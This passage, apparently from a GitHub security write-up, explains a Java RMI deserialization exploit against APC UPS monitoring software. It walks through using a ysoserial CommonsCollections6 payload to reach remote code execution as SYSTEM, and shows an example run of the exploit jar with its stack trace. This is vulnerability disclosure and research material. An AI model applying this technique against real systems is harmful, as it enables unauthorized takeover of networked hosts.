Like in a normal RMI client program, a handle to the registry is obtained [1]. And still like in a normal RMI client the Interface of the respective endpoint is obtained subsequently [2]. Then the InvocationHandler from the `Remote` Object obtained through the `lookup` call is obtained [3]. A new Method is created through reflection, having the same "settings" as the normal "updateComputer" Method [4].

At [5] a ysoserial payload is generated using the CommonsCollections6 gadget chain. The interesting part now starts to happen, we create an Object array [6] which only includes our RCE Gadget. And finally call the invocation handler of our RMI Endpoint with the respective method and our malicious argument [7] to achieve RCE as SYSTEM user.

While there exist writups (https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/) explaining how it is achievable in theory and also hint at solutions like using custom debugger setups, this method of how to abuse that kind of vulnerabilities in an elegant and using just a small number of LoC is new to the public domain to my knowledge.

Added note:
```
My colleague @qtc_de implemented a similar method within his remote-method-guesser tool [rmg](https://github.com/qtc-de/remote-method-guesser)
```


Note: It is necessary to have the `upsLinkMonitor.jar` and `ysoserial.jar` files within the classpath for successful compilation.


Example execution (these errors are expected and don't show a failed exploit attempt):
Note: The exploit was developed with jdk1.8 within eclipse. Due to the nature of the exploit it is recommended to use jre 1.8 for execution.


```cmd
C:\APCUPS\openJDK\bin>java.exe -version
openjdk version "1.8.0_322"
OpenJDK Runtime Environment (Zulu 8.60.0.21-CA-win64) (build 1.8.0_322-b06)
OpenJDK 64-Bit Server VM (Zulu 8.60.0.21-CA-win64) (build 25.322-b06, mixed mode)



C:\APCUPS\openJDK\bin>java.exe -jar C:\Users\user\Desktop\APC-UPS-RMI-AppDeser.jar 172.16.38.131
java.lang.IllegalArgumentException: argument type mismatch
java.lang.IllegalArgumentException: argument type mismatch
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:357)
        at sun.rmi.transport.Transport$1.run(Transport.java:200)
        at sun.rmi.transport.Transport$1.run(Transport.java:197)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.Transport.serviceCall(Transport.java:196)
        at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:573)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:834)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.lambda$run$0(TCPTransport.java:688)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:687)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at java.lang.Thread.run(Thread.java:750)
        at sun.rmi.transport.StreamRemoteCall.exceptionReceivedFromServer(StreamRemoteCall.java:303)
        at sun.rmi.transport.StreamRemoteCall.executeCall(StreamRemoteCall.java:279)
        at sun.rmi.server.UnicastRef.invoke(UnicastRef.java:164)
        at java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod(RemoteObjectInvocationHandler.java:235)
        at java.rmi.server.RemoteObjectInvocationHandler.invoke(RemoteObjectInvocationHandler.java:180)
```